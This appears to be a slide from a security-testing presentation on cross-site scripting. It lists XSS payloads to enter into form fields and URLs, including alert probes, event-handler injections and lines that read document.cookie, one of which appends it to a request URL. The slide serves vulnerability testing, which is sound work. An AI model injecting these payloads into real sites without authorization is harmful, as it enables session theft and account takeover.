

# Common vulnerability security testing
Cross site scripting vulnerability
Once logged into the site insert into the street address and any other place that accepts character values
“<script> alert("HACKED") </script>;”
<body onload=alert(‘something’)>;
<b onmouseover=alert(‘XSS testing!‘)></b>
<script type=”text/javascript”> var test=’../example.php?cookie_data=’+escape(document.cookie); </script>
http://testing.com/book.html?default=<script>alert(document.cookie)</script>
%3cscript%3ealert(document.cookie)%3c/script%3e
http://www.testing.com/test.asp?pageid=2&title=Testing%20Title